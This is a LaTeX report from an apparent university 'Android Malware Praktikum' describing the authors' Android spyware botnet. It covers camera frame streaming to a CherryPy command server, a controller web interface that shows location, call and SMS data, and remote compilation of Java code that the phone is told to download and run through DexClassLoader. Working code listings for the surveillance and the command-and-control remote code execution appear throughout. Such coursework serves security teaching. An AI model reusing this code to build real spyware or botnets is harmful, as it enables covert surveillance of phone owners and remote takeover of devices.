\documentclass[a4paper]{report}
\usepackage[toc,page]{appendix}
\usepackage{hyperref}
\usepackage{minted}
\usepackage{pdfpages}

\newcommand{\classname}[1]{\texttt{#1}}
\newcommand{\methodname}[1]{\texttt{#1}}
\newcommand{\variable}[1]{\texttt{#1}}
\newcommand{\filename}[1]{\texttt{#1}}
\newcommand{\modulename}[1]{\texttt{#1}}

\author{Janus Troelsen, Yanai Gonen}
\title{Android Malware Praktikum: Section 5 expanded}

\begin{document}
\maketitle
\tableofcontents
\chapter{Camera frame transmission}
Our application implements a crude video streaming solution. It is crude because it doesn't use key-frames, b-frames or any other normal video format features. It is more like a fast slide show. The Android application sends WebSocket frames to the Python/CherryPy server. The CherryPy server sends WebSocket frames or complete video (served statically) to the controllers (implemented with JavaScript/jQuery). We will now follow the data to see how the video ends up at the controllers' screen.
\section{Client implementation}
\begin{listing}[H]
\begin{minted}[linenos=false]{java}
mCamera = Camera.open();
spc = new SenderPreviewCallback(mCamera, getApplicationContext(), this);
mCamera.setPreviewCallback(spc);
\end{minted}
\caption{\classname{PreviewCallback} initialization from \methodname{onResume} in \classname{CameraDemo}}
\label{lst:spcinit}
\end{listing}
The Android Application has an Activity called \classname{CameraDemo} that contains a \classname{Preview}. The \classname{Preview} is normally used as a viewfinder, but we define a \classname{PreviewCallback} (see listing~\ref{lst:spcinit}) that sends frames to the server over a WebSocket connection. The result is a crude video streaming solution that manages about 2 FPS over LAN.

WebSockets were chosen because they provide reliable transfer of binary data and we found implementations for Python and Android. The Android library provides automatic queueing of frames. HTTP isn't well suited, since the HTTP client library for Android isn't optimized for large amounts of data. The WebSocket isn't optimized for that either (a protocol using UDP would probably be better), but WebSockets are the best available solution.

\begin{listing}[H]
\begin{minted}[linenos=true]{java}
	public void onPreviewFrame(byte[] data, Camera camera) {
		if (!readyToSend) {
			return;
		}
		readyToSend = false;
		Message msg = new Message();
		Bundle bndl = new Bundle();
		bndl.putByteArray(null, data);
		msg.setData(bndl);
		lt.mHandler.sendMessage(msg);
	}
\end{minted}
\caption{Method \methodname{onPreviewFrame} in \classname{CameraDemo}}
\label{lst:onpreviewframe}
\end{listing}
Listing~\ref{lst:onpreviewframe} shows the callback method. It sends the data to a separate thread with a \classname{Handler}. This is done to make sure we don't block the UI thread. This is all trivial and we will therefore move on to the server implementation.

The \variable{readyToSend} variable is set to true when the server asks the client for the next image. See the next section for that.
\subsection{Summary}
The \classname{Camera} frame dumping isn't really useful as a real spying solution, since the Android framework won't let us get the preview frames without a \classname{Surface}. That means that the user has to look at the video feed while it's being sent.

Our solution uses lots of network bandwidth since we send the image uncompressed. We also do not recode it, for performance reasons. Computationally, however, it is not very demanding. To boost the FPS count it would be useful to implement a real video streaming solution. The Android framework does not provide this. One could use FFMPEG, but that is a rather large endeavor, and you need native code too then.
\section{Server implementation}
We use the \modulename{ws4py} Python module for WebSockets support. It integrates with CherryPy. Each connection is implemented as an instance of a class. You override the \methodname{received\_message} and it will get called on each WebSocket frame.

In order to understand how the \classname{Camera} frame receiver works, we'll first analyze how it is initialized.
\begin{listing}[H]
\begin{minted}[linenos=true]{python}
  wsroot = WSRoot()
  botnetserver = BotnetServer(UIWSHandler.sendall)
  wsroot.botnetserver = botnetserver
  cherrypy.tree.mount(wsroot, "/ws", config={})
\end{minted}
\caption{Creation of server class instances in \filename{server.py}}
\label{lst:serverinit}
\end{listing}
Listing \ref{lst:serverinit} shows the initialization of the WebSocket and plain HTTP frontends to the server backend. In line 4 the instance from line 1 is mounted on the path \filename{/ws}. We will see how \classname{WSRoot} (short for \textit{WebSocket Root}) implements the \methodname{img} method that is exposed and connected to by the clients (phones).

\begin{listing}[H]
\begin{minted}[linenos=false]{python}
  @cherrypy.expose
  @tools.websocket(handler_cls=ReceiverWSHandler)
  def img(self,phone):
    cherrypy.request.ws_handler.parent=self
    cherrypy.request.ws_handler.phone=phone
\end{minted}
\caption{\methodname{img} from \classname{WSRoot} in \filename{wsserver.py} shows WebSocket handler initialization}
\label{lst:handlerinit}
\end{listing}

Listing \ref{lst:handlerinit} shows the \methodname{img} method defintion. The WebSocket connection handler is assigned in a decorator, and the function body assigns the phone serial number to a field in the instance, and the \classname{WSRoot} instance to another field.

\subsection{\classname{ReceiverWSHandler}}

\begin{listing}[H]
\begin{minted}{python}
class ReceiverWSHandler(WebSocketHandler):
    phones = {}
    currentlyProcessingCount = 0
\end{minted}
\caption{\classname{ReceiverWSHandler} class declaration and class variables}
\label{lst:rwshdecl}
\end{listing}

The class is statically keeping track of the phones (normally only one) currently sending images. The \variable{phones} class variable is a dictionary that maps a serial to a list of phones. When a new connection is opened, the handler adds itself to the map. The map is there so that the botnet controller can tell the phones (again, possibly only one) with a certain ID to start sending, or to stop it. The class is also statically keeping track of how many images it is currently transcoding from YUV440 to JPEG. If it is transcoding too many, it will stop asking for new images. This has however not been tested, since we don't have enough phones.

The class consists of the methods \methodname{opened}, \methodname{close}, \methodname{received\_message}, \methodname{getnext}, \methodname{notifyall}, \methodname{start}, \methodname{stop}, \methodname{gen\_video}. A short description of all these:

\subsubsection{\methodname{opened}, \methodname{close}}
\methodname{opened} is called after the connection is opened. It adds the instance to the \variable{phones} variable and notifies the botnet controllers that the phone is sending. Whether the phone is sending, not sending or sending and being recorded, is shown along with other general information in top of the botnet master/controller web interface.

\methodname{close} does the opposite, and it is called just \emph{before} the connection is closed, hence the slightly different form.

\subsubsection{\methodname{received\_message}}
\methodname{received\_message} is called when a frame is received.

\begin{listing}[H]
\begin{minted}[linenos=true]{python}
    def received_message(self, m):
      assert m.is_binary
      
      if self.parent.broadcaster.getSubscriberCount(self.phone) == 0:
        cherrypy.log("no subscribers...")
        return
      v = self.parent.botnetserver.statuses[self.phone]
      bSave = v.videostatus == common.VideoStatus.RECORDING
      if bSave:
        no = self.frameno
      else:
        no = float("nan")
      process(str(m.data), self.phone, bSave, no, v)
      if bSave:
        self.frameno += 1
      if self.__class__.currentlyProcessingCount >= 3:
        cherrypy.log("too busy, not asking for next")
        return
      self.getnext()
\end{minted}
\caption{\methodname{received\_message} in \classname{ReceiverWSHandler} handles incoming WebSocket frames}
\label{lst:rwsh_rm}
\end{listing}

All data received over this WebSocket is binary, hence the assertion on line 2 in listing \ref{lst:rwsh_rm}. On line 3, we check whether there are any subscribers (that means: botnet controllers with the web interface opened, their browsers waiting for images). Naturally, we don't need to transcode the image if there aren't anyone listening. On line 7 we are getting the \classname{Phone} object for the current phone (see \filename{common.py}). It contains the most general information, most of which is visible in the web interface, in the top of each tab.

On lines 8-12 in \ref{lst:rwsh_rm}, we check whether we are recording video, and get the current frame number if we are. The \methodname{process} function is doing the actual encoding:

\begin{listing}[H]
\begin{minted}[linenos=true]{python}
def process(data, phoneserial, bSave, frameno, v):
  cherrypy.log("processing!")
  yuv = data
  if bSave:
    save(yuv, v, frameno)
  w,h = CAMWIDTH,CAMHEIGHT
  img = yuvtoimg(yuv, w, h)
  stuff = getjpegstr(img)
  stuff="data:image/" + iformat + ";base64," + base64.b64encode(stuff)
  BroadcastWSHandler.sendtoall(stuff,phoneserial)
  cherrypy.log("finished!")
\end{minted}
\caption{\methodname{process} in \filename{wsserver.py} converts raw YUV to raw RGB and compresses with JPEG}
\label{lst:process}
\end{listing}

Observe the \methodname{process} function shown in listing \ref{lst:process}. It saves the original frame if we are recording. On line 6 we get the camera width and height from two global constants. These dimensions should ideally come from the phone, but we have found no reliable way of getting that data. The preview frame as gotten from the Android API has no metadata, and the methods that should report the actual size, seem to be returning the wrong number on Janus' HTC Desire with CyanogenMod 7.0/Android 2.3.7.

On line 7, the YUV420 data is converted to RGB data. This is done with a tiny C library since it is much more efficient than doing it in Python. Python code is included for portability (see \filename{yuv420sp.py}).

On line 8, the image is converted to JPEG, using the PIL (Python Imaging Library). The data is then Base64 encoded, since we had problems sending binary data to the Google Chrome browser, probably because ws4py and Google Chrome wasn't implementing the exact same version of the WebSocket standard. Now that the WebSocket standard is finalized, this shouldn't be necessary.

On line 10 we call a class method in the BroadcastWSHandler so that the image is send to all subscribers.

\subsubsection{Transmission control: \methodname{getnext}, \methodname{notifyall}}
\methodname{getnext} is an instance method for asking a phone to send the frame once available. It encodes a tiny dictionary as JSON and sends it over the WebSocket.

\methodname{notifyall} is a class method for telling all the phones with a given serial to start sending.

\subsubsection{Video recording: \methodname{start}, \methodname{stop}, \methodname{gen\_video}}
\methodname{start} will set the appropriate field in the aforementioned \classname{Phone} object. The following frames will be saved (in raw form). \methodname{stop} obviously does the opposite. Both of these methods are called from \classname{BroadcastWSHandler} when the corresponding command is received over a subscriber WebSocket channel (triggered by the controller). When the video is stopped, a video will automatically be created using \methodname{gen\_video}.

\methodname{gen\_video} will use FFMPEG to encode the recorded frames to a WebM video file. The colors will be slightly wrong, since FFMPEG doesn't support the YUV420SP format. The wrong format is used, but the performance gains still makes it worth it.

\subsection{\classname{BroadcastWSHandler}}
This class implements the connection from server backend to controller frontend. The method \methodname{sendtoall} is called by the \classname{ReceiverWSHandler} to send an image to all subscribers for a given serial number.

The handler also supports receiving the \texttt{recstart} (start recording), \texttt{recstop} (stop recording), {texttt{getwaitimg} (get placeholder image). The recording commands call the relevant method in \classname{ReceiverWSHandler}.

\section{Controller implementation}
The botnet controller implementation is made with JavaScript and jQuery.

The controller implementation resides in the \filename{static} folder in the \filename{botnetserver} folder. It is served statically by the CherryPy server, hence the name.

\subsection{\filename{tabs.html}}
First, we'll explain the the code that initializes each tab (one tab for each phone), since that's that first code being executed.

\begin{listing}[H]
\begin{minted}[linenos=false]{javascript}
var tab_counter = 1;

function addTab(param, $content_filler, id) { ... }
\end{minted}
\caption{\methodname{addTab} signature in \filename{tabs.html}}
\label{lst:addtab}
\end{listing}

The function \methodname{addTab} (signature shown in listing \ref{lst:addtab}) takes a name for the tab, a function to fill the tab (taking the jQueryUI Panel) and the ID of the tab. The contents use the jQueryUI tabs API to add the new tab. The tab can only be filled after it is added, of course. That's why we pass the anonymous function to \methodname{addTab}. jQuery (and jQuery UI) often use callbacks for executing code on completion instead of blocking synchonous function execution.

\begin{listing}[H]
\begin{minted}[linenos=true]{javascript}
var serialToCallback = new Array();
var ws = new WebSocket("ws://localhost:9884/ws/ui/");
ws.onopen = function (evt) { log("open"); for (var i in [0, 1]) mmsend("getactive"); }
var phonestatusupdate = function(p) {
  if (serialToCallback[p.serial] !== undefined) {
    serialToCallback[p.serial](["phonestatusupdate",p]);
    return;
  }
  var id = "#tabs-" + tab_counter;
  tab_counter++;
  var $content_filler = function(tabelement) {
    $.ajax("tabtemplate.html", {cache: false, async: false, success: 
     function(data, txtstatus, xqxhr) {
      $(tabelement).html(data);
      serialToCallback[p.serial] = createTab($(id), p.serial);
      serialToCallback[p.serial](["phonestatusupdate",p]);
     }
    });
  };
  addTab(p.model, $content_filler, id);
}
\end{minted}
\caption{WebSocket connection initialization and \methodname{phonestatusupdate} function definition}
\label{lst:tabswebsocket}
\end{listing}

We initialize the \variable{serialToCallback} associative array in the beginning of listing \ref{lst:tabswebsocket}. The array will map serials to callback functions, that are called when an event happens. An event could be a message describing a new phone (in this case, a new tab will be created using \methodname{addTab}), or it could be a status update for a phone we already have a tab for.

We also register the \methodname{onopen} callback (line 3) so that we can ask for phone status updates describing all the online phones. We can then create tabs for them and start listening for data relayed from the server.

If the phone is new, a HTML template will be loaded into the tab, and the \methodname{createTab} function will be called, so that it can handle the tab. \methodname{createTab} will return a callback that we can use to tell the tab of changes from the UI channel. The UI channel is implemented by the \classname{UIWSHandler} class server-side.

\begin{listing}[H]
\begin{minted}[linenos=true]{javascript}
ws.onmessage = function (evt) {
  // format 0 = command
  //        1 = arguments
  //        2 = serial (only when not phonestatusupdate)
  var p = $.parseJSON(evt.data);
  switch (p[0]) {
    case "phonestatusupdate":
      phonestatusupdate(p[1]);
      break;
    default:
      if (!(2 in p)) { log("got msg without serial! msg: " + evt.data); break; }
      if (!(p[2] in serialToCallback)) {
        log("got msg from offline " + p[2] + " phone. msg: " + evt.data); break;
      }
      serialToCallback[p[2]](p);
      break;
  }
}
\end{minted}
\caption{\filename{tabs.html}'s WebSocket \methodname{onmessage} handler}
\label{lst:tabsonmessage}
\end{listing}

Listing \ref{lst:tabsonmessage} shows the WebSocket message handler. The data format isn't very intuitive, and the comment describes the indices of fields in the JSON array object received over WebSocket. If we aren't doing a phone status update (usually a phone recording or stopping recording, turning on or turning off), we let the tab handle the message completely by itself. If the phone is new, the tab has to be created first. In that case, \methodname{phonestatusupdate} will call the callback function from the array, by passing the assignment and execution statements in the \variable{\$content\_filler} function, which is passed along to \methodname{addTab}.

\subsection{Functionality in \filename{tab.js} concerning everything except camera handling}
\textit{\textsc{Note:} This section isn't strictly necessary for understanding the image transfer}

\filename{tab.js} contains only the function \methodname{createTab}. It takes two parameters: it's own tab (for drawing into), and the corresponding phone serial number. It uses this serial number for launching the WebSocket connection used for transmitting frames (of image data).

Now, let's look at the callback it returns, so we can find out how it is structured:
\begin{listing}[H]
\begin{minted}[linenos=true]{javascript}
return function(obj) {
	if (obj[0] != "phonestatusupdate") assert(obj[2] == serial, 
		"Got message that wasn't designated for this tab!");
	switch (obj[0]) {
		case "location":
		case "phone":
		case "sms":
			realtime(obj);
			break;
		case "commandlistupdate":
			commandlistupdate(obj);
			break;
		case "phonestatusupdate":
			setstatusfields(obj);
			break;
		case "newvideo":
			newvideo(obj);
			break;
		default:
			log("don't know command: " + obj[0]);
			break;
	}
};
\end{minted}
\caption{\methodname{createTab}'s return value: an anonymous callback for handling messages for the tab it was called to initialize}
\label{lst:createtabret}
\end{listing}

The object given as a parameter to the anonymous callback function shown in listing \ref{lst:createtabret} takes the same 2 or 3 element array that we discussed in the previous section. The different message types are:
\subsubsection{\texttt{location}, \texttt{phone}, \texttt{sms}}
These are the obvious spying tools. The JSON objects are shown in the right side of the controller interface, next to the camera frame container. They are not parsed, simply formatted in lists.
\subsubsection{\texttt{commandlistupdate}}
This command is received when the list of supported commands by the server (see the chapter \ref{ch:bytecode}) changes. Currently, no code is changing this list. However, it is very easy to modify the application to make it happen. The commandparser in the Android application dynamically traverses a list that could be updated by code submitted using the form (see section \ref{sec:controller-codesubmit}).
\subsubsection{\texttt{phonestatusupdate}}
A phone status update means that either the online/offline status, video recording status, IP address, command listening port (for sending commands from client to server) changed. All of this information is shown in the top of the tab.
\subsubsection{\texttt{newvideo}}
This event means that a new static video was generated. A link will be added in the realtime data fieldset (the one for SMS'es).

\subsection{Functionality in \filename{tab.js} concerning camera handling}
\begin{listing}[H]
\begin{minted}{javascript}
var img = $(".camera", tab);
var imgspinner = img.parent().spin();
ws.onopen = function (evt) {
	log("open");
	mmsend("getwaitimg");
};
ws.onmessage = function (evt) {
	log("webcam got data: " + evt.data.length);
	imgspinner.spin(false);
	img.attr("src", evt.data);
};
\end{minted}
\caption{\filename{tab.js}: Camera image dumping DOM element retrieval, spinner intialization and WebSocket event handlers assignment}
\label{lst:tabjsws}
\end{listing}

Listing \ref{lst:tabjsws} shows how we get the image element from the tab template, start a spinner (remember, this is executed when the tab is created), and register the callbacks handling the images as they arrive.

When the connection is opened, we ask the server to send us a placeholder image so that the controller can see that the connection is working. The real images won't arrive until the \classname{CameraDemo} Activity on the phone is started.

The spinner from the tab creation should be hidden (using \texttt{spin(false)}) relatively quickly since we ask for the placeholder image right away. The images are simply set as the \texttt{src} parameter of the image element, since it is already in the correct syntax. The browser will do the Base64 decoding.

\chapter{Bytecode transmission}
\label{ch:bytecode}

The bytecode transmission has data flowing the opposite direction than the camera transmission. By that, we mean that code is submitted from the controller interface, compiled by the server interface, and then sent to the phone using a custom protocol, very reminiscent to Telnet.

Again, we will follow the data.

\section{Controller implementation}
\label{sec:controller-codesubmit}
We will analyze the code submission from \filename{tab.js}:
\begin{listing}[H]
\begin{minted}[linenos=true]{javascript}
$(".codeexecute", tab).on("click", function() {
    var postdata = {
      serial: serial,
      code: editor.getValue(),
      classname: $(".classname", tab).val()
    };
    $(".coderesult", tab).children().css("visibility", "hidden");
    var s = $(".coderesult", tab).spin();
    $.postJSON('/executecode', postdata, function(data) {
        s.spin(false);
        $(".coderesult", tab).empty();
        $(".coderesult", tab)
          .append(data["time"] , ":" , $("<pre>")
          .append(prettify(data['output'])));
    });
});
\end{minted}
\caption{Code submission button on-click handler}
\label{lst:codesubmit}
\end{listing}
Listing \ref{lst:codesubmit} shows the binding of an anonymous \texttt{click}-event handler to the submission button. A JavaScript object (later encoded to JSON) is constructed, with the necessary metadata. This includes the serial number of the phone to execute on, and the class name in the submitted code snippet.

The code also uses the spinner (also used briefly in the camera initialization) to improve usability in the controller interface.
\section{Server implemention}
We'll analyze the \methodname{executecode} method in \filename{server.py}$\rightarrow$\classname{BotnetServer}. This method defines a regular URL that the controller submits POST data to. The reason that we aren't using WebSockets anymore, is because the browser is now sending the data. WebSockets were used before for the server$\leftrightarrow$controller communication because the browser wouldn't know when frames arrived.

\begin{listing}[H]
\begin{minted}{python}
@cherrypy.expose
@tools.json_in()
@tools.json_out()
def executecode(self):
\end{minted}
\caption{\methodname{executecode} signature and decorators in \filename{server.py}}
\label{lst:executecode}
\end{listing}

The declaration shown in listing \ref{lst:executecode} shows us that the resource takes and returns JSON data. This is more versatile than regular POST fields, since JSON has datatypes and associative arrays (dictionaries or hash maps, if you like).

\begin{listing}[H]
\begin{minted}{python}
for i in ["javac -cp  ~/Downloads/android-sdk-linux/platforms/android-10/android.jar" +\
  " de/tudarmstadt/botnet/janus_yanai/*",
  "jar cf class.jar de",
  "~/Downloads/android-sdk-linux/platform-tools/dx --dex --output dexed.jar class.jar"]:
  o = six.u(check_output(i, stderr=subprocess.STDOUT, shell=True))
\end{minted}
\caption{\methodname{executecode} in \filename{server.py} shows Java source code compilation with command line tools}
\label{lst:compile}
\end{listing}

The code compilation itself is shown in \ref{lst:compile}. This is pretty straightforward UNIX command execution. The tool locations could be put in a configuration file, but they are only used here anyway. This snippet is surrounded by a \texttt{try} statement, so errors can be caught and return to the controller.

Next, the dexed jar is moved to the static folder so that it is visible from the phone (over HTTP). We tell the phone to download and run the code usind \methodname{sendbotcmd} (see listing \ref{lst:downloadrun}).

\begin{listing}[H]
\begin{minted}{python}
st = self.sendbotcmd(ip, port, "download http://" + myip + ":" + str(cherrypy.config["server.socket_port"]) + "/static/dexed.jar")
# some lines removed...
st = self.sendbotcmd(ip, port, "run de.tudarmstadt.botnet.janus_yanai." + realclassname)
\end{minted}
\caption{The client phone is asked to download and run our compiled bytecode}
\label{lst:downloadrun}
\end{listing}

We will now move on to \methodname{sendbotcmd} to see how the controller$\leftrightarrow$phone command sending protocol works.

\begin{listing}[H]
\begin{minted}[linenos=true]{python}
def sendbotcmd(self, host, port, command):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    output = ""
    try:
      s.settimeout(10.0)
      s.connect((host, int(port)))
      s.send(six.b(command + "\n"))
      done = False
      while not done:
        bs = s.recv(256)
        if bs.find("\0") != -1:
          response, garbage = bs.split("\0", 1)
          bs = response
          done = True
        output += bs
    except socket.error as e:
      output += "\n" + str(e)
    s.close()
    return output
\end{minted}
\caption{\methodname{sendbotcmd} shows the custom Telnet-like protocol client implementation}
\label{lst:sendbotcmd}
\end{listing}

Observe in listing \ref{lst:sendbotcmd} how the function defintion is lacking the expose decorator. This function is not callable over HTTP.

The command itself is simply sent as ASCII, and followed by a UNIX newline (line 7). We then read data from the socket (line 10) until we get a null byte (line 11). Everything after the byte is discarded.

\section{Client implementation}

\subsection{\filename{ServerService.java}}
The Android application has a \classname{SocketServer} that it reads from, line by line. Each connection is currently handled in the same thread in the server. This is okay, as we only support one connection at a time. The code is fairly modular though, and a statement launching a thread for each connection is present, but commented out.

Now, let's look at each line is handled. A \classname{LineHandler} is a \classname{Runnable} that is posted to a \classname{Handler}. This ensures that the commands are executed sequentially, but asynchronously. An excerpt from \classname{LineHandler} shows how it looks for the matching command to execute:
\begin{listing}[H]
\begin{minted}{java}
for (Action i :
  new ServerActions(
    context.getContentResolver(),
    context.getCacheDir(),
    (LocationManager)context.getSystemService(Context.LOCATION_SERVICE)
  ).getActions())
{
  if (line.startsWith(i.getToken())) {
    obj = i.call(line.substring(i.getToken().length()));
  }
}
\end{minted}
\caption{Searching for matching \classname{Action} in \filename{ServerService.java}}
\label{lst:botcmdcall}
\end{listing}

The \classname{ServerActions} class is implementing the commands that can be executed, and its method \methodname{getActions} returns a list of those. The class needs a couple of objects only accessible from a \classname{Context} for its actions, i.e. calendar access. These objects are passed along in the constructor (listing \ref{lst:botcmdcall} lines 3-5). Let's analyze the \classname{Action} (defined in \filename{ServerService.java} too) class:
\begin{listing}[H]
\begin{minted}{java}
abstract class Action {
	abstract String getToken();
	abstract JSONObject call(String args) throws Exception;
}
\end{minted}
\caption{Abstract class \classname{Action} declaration}
\label{lst:actiondecl}
\end{listing}

The \methodname{getToken} method must return a \classname{String} that is a prefix of the commands that must be matched. The \methodname{call} procedure will be called with the rest of the command line. The \classname{Action} can manage its own arguments this way.

We will now analyze \texttt{download} and \texttt{run} -- the two commands necessary to execute code from the controller interface.

\subsection{\filename{ServerActions.java}}
\subsubsection{\texttt{download}}
This command simply downloads the given file (using HTTP) to the cache directory given in the constructor of \classname{ServerActions}.
\subsubsection{\texttt{run}}
\begin{listing}[H]
\begin{minted}[linenos=true]{java}
list.add(new Action() {
	@Override
	String getToken() {
		return "run ";
	}
	@SuppressWarnings("unchecked")
	@Override
	JSONObject call(String args) throws Exception {
		controlCanCall();
		DexClassLoader classLoader = new DexClassLoader(
				FILEPATH, "/sdcard", null, getClass().getClassLoader());
		Class<?> myClass;
		myClass = classLoader.loadClass(args);

		try {
			return LineHandler.textout( (
				(Callable<String>) myClass.newInstance()
			).call());
		} catch (Exception e) {
			e.printStackTrace();
			throw e;
		}
	}
});
\end{minted}
\caption{Implementation of the \texttt{run} command in the custom command protocol.}
\label{lst:runimpl}
\end{listing}

Listing \ref{lst:runimpl} shows an anonymous class implementing \classname{Action}. We'll walk you through it.

Line 9 checks that the \classname{ServerActions} was constructed contain executable \classname{Action}s. Because the tokens should be retrievable without a \classname{Context}, it is possible to construct the class without these arguments. The \classname{Action}s cannot be executed in that case.

Line 10 shows the \classname{DexClassLoader} usage. This class will ensure load a dexed jar from a given path.

In line 13 the class is loaded using the name given originally in the controller interface.

The class must implement the \classname{Callable<String>} interface, as it is casted in line 17.

The returned \classname{String} will be written back to the \classname{Socket} that the command came from. This is done in \filename{ServerService.java}. A null byte is appended and the server will send all bytes received to the controller interface.
\begin{appendices}
\chapter{List of listings}
\listoflistings
\chapter{Data flow diagram}
See next page for a diagram showing the flow of the data in the application, and its means of transmission.

\includepdf{dataflow.pdf}
\end{appendices}
\end{document}
